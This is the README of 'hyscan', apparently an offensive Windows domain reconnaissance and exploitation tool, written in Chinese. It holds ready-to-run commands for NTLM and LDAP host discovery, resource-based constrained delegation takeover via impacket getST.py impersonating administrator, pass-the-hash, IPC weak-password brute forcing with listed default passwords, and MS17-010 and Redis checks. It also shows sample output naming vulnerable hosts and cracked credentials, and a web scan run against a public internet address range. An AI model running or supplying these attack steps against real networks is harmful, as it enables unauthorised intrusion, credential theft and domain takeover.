



# hyscan

## 学习点

1、ntlm/kerberos协议的学习

2、win32/com的学习

3、ldap/wnet/wmi的学习

4、多线程/线程池框架开发的学习

## 功能

- 收集(Gather)
  - [√] 基于 NTLM type2 135端口探测主机信息
  - [√] 基于 NTLM type2 445端口探测主机信息
  - [ ] 基于 NTLM type2 5985端口探测主机信息
  - [√] 基于 OXID DCOM接口探测多主机网卡
  - [√] 基于 LDAP 委派配置不当探测（约束委派/非约束委派/基于资源的约束委派）
  - [√] 基于 LDAP GPO组策略搜集
  - [√] 基于 LDAP 文件服务器搜集
  - [√] 基于 LDAP 信任域搜集
  - [√] 基于 LDAP DNS记录搜集
  - [√] 基于 端口开放扫描(服务指纹识别)
  - [√] 基于 WEB服务标题扫描
  - [ ] 基于 共享资源枚举NetShareEnum
  - [ ] 基于 域管登录定位NetSession
- 利用(Exploit)
  - [√] 基于 IPC Brute(域/本地组弱口令自动枚举)
  - [ ] 基于 WMIC Brute(域/本地组弱口令自动枚举)
  - [√] 基于 Default WMI PTH
  - [√] 基于 Default SMB PTH
  - [√] 基于 LDAP 利用（添加机器用户/添加DNS记录/基于资源的约束委派利用和提权）
  - [ ] 基于 TCP加密流量代理
  - [ ] 基于 kerberos TGT票据请求
  - [ ] 基于 kerberos ST票据请求
  - [√] 基于 端口第三方服务利用(SMB MS-17010/SMBGhost探测/redis等第三方未授权)

## 演示

`hyscan.exe --help`


### 基于 NTLM type2 135端口探测主机信息

原因：基于ntlm type2 比起netbios类似的探测更加的隐蔽，并且同样可以域外通过DNS定位域

`hyscan.exe --scantype ntlmscan --ntlmtype wmi --ip 192.168.4.130`


`hyscan.exe --scantype ntlmscan --ntlmtype wmi --cidr 192.168.4.1/24`



如果觉得慢的话，可以设置线程参数，没有--thread 默认为50线程

`hyscan.exe --scantype ntlmscan --ntlmtype wmi --cidr 192.168.4.1/24 --thread 100`



SMB的type 2 445端口也是一样的，只需要如下即可

`hyscan.exe --scantype ntlmscan --ntlmtype smb --ip 192.168.4.130`

`hyscan.exe --scantype ntlmscan --ntlmtype smb --cidr 192.168.4.1/24`

`hyscan.exe --scantype ntlmscan --ntlmtype wmi --cidr 192.168.4.1/24 --thread 100`

### 基于 OXID DCOM接口探测多主机网卡

`hyscan.exe --scantype oxidscan --ip 192.168.4.130`


`hyscan.exe --scantype oxidscan --cidr 192.168.4.1/24`


### 基于 LDAP 委派配置不当探测（约束委派/非约束委派/基于资源的约束委派）

`hyscan.exe --scantype ldapscan --dc 192.168.4.11 --`


其他的LDAP命令都是一样的，都写在了命令行参数中了

### 基于 LDAP 利用（添加机器用户/添加DNS记录/基于资源的约束委派利用）

将自身能接管的主机都进行接管操作，其实就是设置了对应的`msds-allowedtoactonbehalfofotheridentity`参数来实现



之后利用的话就直接用impacket的getST.py进行申请TGS(ST)票据然后访问就可以了

`python getST.py -dc-ip 192.168.4.11 hengge.com/新添加的机器名$:新添加的机器的密码 -spn cifs/接管的主机名 -impersonate administrator`

### 基于 端口开放扫描(服务指纹识别) 和 端口第三方服务利用(SMB MS-17010/SMBGhost探测/redis等第三方未授权)

示例:

单IP，多端口
`hyscan.exe --scantype portscan --ip 192.168.4.11 --port 80,90 --thread 100`

单IP,多端口
`hyscan.exe --scantype portscan --cidr  192.168.4.1/24 --port 1-100,6379,445 --thread 100`

内置了top100 和 top1000

top100：`hyscan.exe --scantype portscan --cidr  192.168.4.1/24 --port top100 --thread 100`

top1000：`hyscan.exe --scantype portscan --cidr  192.168.4.1/24 --port top1000 --thread 100`


最终记录四种条目的结果

`hyscan.exe --scantype portscan --cidr  192.168.4.1/24 --port top100 --thread 100`

```
--------------------------存活主机的地址--------------------------
192.168.4.1
192.168.4.11
192.168.4.2
192.168.4.130
192.168.4.129
192.168.4.255
192.168.4.254
--------------------------主机开放的端口--------------------------
192.168.4.1:80 HTTP
192.168.4.11:5985
192.168.4.11:389
192.168.4.11:445 SMB
192.168.4.11:139
192.168.4.11:53
192.168.4.11:135
192.168.4.11:3306
192.168.4.11:49152
192.168.4.11:49154
192.168.4.130:5985
192.168.4.130:445 SMB
192.168.4.130:139
192.168.4.130:135 RPC
192.168.4.130:49152
192.168.4.130:49154
192.168.4.129:389
192.168.4.129:3389
192.168.4.129:6379 Redis
192.168.4.129:21
192.168.4.129:445 SMB
192.168.4.129:139
192.168.4.129:53 DNS
192.168.4.129:135
192.168.4.129:1433 MSSQL
192.168.4.129:49152
192.168.4.129:49154
192.168.4.129:80 HTTP
--------------------------可利用的服务端口--------------------------
192.168.4.1:80 http
192.168.4.11:5985 http
192.168.4.11:389 ldap
192.168.4.11:3306 mysql
192.168.4.11:445 smb
192.168.4.130:5985 http
192.168.4.130:445 smb
192.168.4.129:389 ldap
192.168.4.129:21 ftp
192.168.4.129:445 smb
192.168.4.129:3389 rdp
192.168.4.129:1433 mssql
192.168.4.129:80 http
--------------------------存在漏洞的服务端口--------------------------
192.168.4.11 ldap unauth
192.168.4.11 smb MS17010
192.168.4.11 mysql weakpass root/123456
192.168.4.129 ldap unauth
192.168.4.129 smb MS17010
192.168.4.129 ftp weakpass ftpuser/ftp@123
```

### 基于 WEB服务标题扫描

`hyscan.exe --scantype webscan --cidr 120.79.65.58/24 --port 80,8080 --thread 300`


测试`120.79.66.58/24`网段 ，100线程 200线程 300线程结果都是扫描出126个数量的结果


### 基于 IPC Brute(域/本地组弱口令自动枚举)

借鉴了ske大师兄的思路，思路如下

- 进入内网中，判断当前的用户权限

- - 如果当前的用户权限为域用户权限

- - - 列出域里所有的域机器

- - - 对获得的每一台域机器探测存活

- - - - 如果存活的话，用当前的域用户和上面列出的每一台域机器建立IPC/WMI连接，接着把每台域机器的本地administrator组都取出来（其中会包括域管理员，域用户，域组，本地administrator，本地的其他用户）

- - - - - 如果是存在组的话，那么对该组继续进行查询，如果是"Domain Admins"组的话，跳过

- - - - - 如果是存在组的话，那么对该组继续进行查询，如果是"Domain Users"组的话，那么为成功，因为当前域用户默认为"Domain Users"组内的成员

- - - - - 本地管理组非administrator用户，如"zpchcbd"，则探测密码为"zpchcbd"，"admin@123"，"zpchcbd@123"，"P@ssw0rd"

- - - - - 本地管理组administrator用户，如"admin@123"，"123456"

- - - - 如果不存在则跳过继续探测下一台

- - 如果当前的用户权限为本地组权限

- - - 对当前网段的每台机器探测存活

- - - - 如果存活的话

- - - - - 本地管理组administrator用户，如"admin@123"，"123456"

`hyscan.exe --scantype weakscan`


## 参考

https://github.com/0x727/ShuiYing_0x727

https://github.com/SkewwG/domainTools

https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1

https://blog.ateam.qianxin.com/post/zhe-shi-yi-pian-bu-yi-yang-de-zhen-shi-shen-tou-ce-shi-an-li-fen-xi-wen-zhang/

https://github.com/robertdavidgraham/masscan